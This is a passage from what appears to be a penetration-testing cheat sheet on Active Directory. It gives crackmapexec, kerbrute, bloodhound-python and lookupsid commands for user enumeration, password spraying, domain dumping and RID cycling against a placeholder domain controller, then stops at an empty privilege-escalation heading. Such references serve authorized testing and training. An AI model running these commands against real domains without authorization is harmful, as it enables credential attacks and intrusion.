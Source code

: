 _Enumerate some users_

```
crackmapexec smb 10.10.13.100 -u users.txt -p $pass --users | tee userlist.txt
```

#### Password Spraying on the domain

```
/opt/kerbrute/dist/kerbrute_linux_amd64 passwordspray -d MEGACORP.CORP --dc 10.10.13.100 users.lst '$pass'
```

**Dump Domain, Groups and Users using Bloodhound-Python:**

```
bloodhound-python -c all -u $user -p $password -d $domain -dc $dc_domain -ns $ip --disable-pooling -w1 --dns-timeout 30
```

Setting up Bloodhound:

```
sudo neo4j console
sudo bloodhound
```

### RID Cycling

_Global Structure :_

```
S-1-5-21-40646273370-24341400410-2375368561-1036
```

* `S-1-5-21`: **S refers SID (Security Identifier)**
* `40646273370-24341400410-2375368561`: **Domain or Local Computer Identifier**
* `1036`: **RID (Relative Identifier)**

_User SID Structure :_

* `S-1-5-21-40646273370-24341400410-2375368561`: **Domain SID**
* `1036`: **User RID**

> using [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) :

```
cme smb $target -u $username -p $password --rid-brute
```

> using [lookupsid](https://github.com/SecureAuthCorp/impacket/blob/cd4fe47cfcb72d7d35237a99e3df95cedf96e94f/examples/lookupsid.py) :

```
lookupsid.py MEGACORP/$user:'$password'@$target 20000
```

the value "20000" in lookupsid is to indicate how many RID will be tested

### Privilege Escalation
